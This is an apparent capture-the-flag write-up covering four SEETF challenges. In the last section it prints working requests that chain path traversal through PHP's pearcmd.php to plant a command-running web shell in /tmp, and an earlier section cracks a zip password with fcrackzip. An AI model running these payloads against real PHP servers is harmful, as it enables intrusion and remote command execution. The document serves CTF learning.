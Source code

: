## Sourceless Guessy Web (Baby Flag)
>WHY SO SERIOUS? WHY NEED SOURCE?
Contrary to the title of this challenge, you do not need to guess. As usual, do not bruteforce or scan our infrastructure, it is not allowed.
Note: There are two flags for this challenge.
http://sourcelessguessyweb.chall.seetf.sg:1337
For beginners:
https://portswigger.net/web-security/file-path-traversal

![](https://i.imgur.com/t8jEC7j.png)
![](https://i.imgur.com/fk9gEtV.png)
![](https://i.imgur.com/TxfuzvH.png)

>SEE{2nd_fl4g_n33ds_RCE_g00d_luck_h4x0r}

---

# Sniffed Traffic
>We inspected our logs and found someone downloading a file from a machine within the same network.
Can you help find out what the contents of the file are?
For beginners:
    https://www.javatpoint.com/wireshark

![](https://i.imgur.com/F4FMLd6.png)

then export http object zip file
```
unzip thingamajig.zip 
    49949ec89a41ed9bdd18c4ce74f37ae4
binwalk --dd=".*" stuff
fcrackzip -u -D -p ../../rockyou.txt 3E8
    PASSWORD FOUND!!!!: pw == john
unzip 3E8
cat flag.txt 
    SEE{w1r35haRk_d0dod0_4c87be4cd5e37eb1e9a676e110fe59e3}

```
>SEE{w1r35haRk_d0dod0_4c87be4cd5e37eb1e9a676e110fe59e3}

---

## Regex101
>Our team stored a flag on our machine, however, we were hacked by someone, and he generated 2999 flags and hid our original flag in the .txt file. The flag consists of 5 uppercase letters, followed by 5 digits and another 6 uppercase letters. Can you find it for us?

SEE\{[A-Z]{5}\d{5}[A-Z]{6}\}

>SEE{RGSXG13841KLWIUO}

---

##  Sourceless Guessy Web (RCE Flag)
>WHY SO SERIOUS? WHY NEED SOURCE?
Contrary to the title of this challenge, you do not need to guess. As usual, do not bruteforce or scan our infrastructure, it is not allowed.
Note: There are two flags for this challenge.
http://sourcelessguessyweb.chall.seetf.sg:1337

after a lot of failures, HERES THE DEAL:

ref: 
https://twitter.com/phithon_xg/status/1455534506744717323 
https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html
 
```
view-source:http://sourcelessguessyweb.chall.seetf.sg:1337/?+config-create+/&page=../../../../../usr/local/lib/php/pearcmd.php&/%3C?=system(%27ls%27)?%3E+../../../../../tmp/hello.php

view-source:http://sourcelessguessyweb.chall.seetf.sg:1337/?page=../../../../../tmp/hello.php
```

![](https://i.imgur.com/Bo9x15b.png)
![](https://i.imgur.com/f8hIHWs.png)

so we tried to write a file with the command of 'ls' adn that worked so we moved to cmd
```
/?+config-create+/&page=../../../../../usr/local/lib/php/pearcmd.php&/<?=system($_GET['cmd'])?>+../../../../../tmp/cmd.php
```
then we visit:
```
/?page=../../../../tmp/cmd.php&cmd=ls
```

![](https://i.imgur.com/SKpsvGc.png)
![](https://i.imgur.com/weiH2RD.png)

>SEE{l0l_s0urc3_w0uldn't_h4v3_h3lp3d_th1s_1s_d3fault_PHP_d0cker}

---

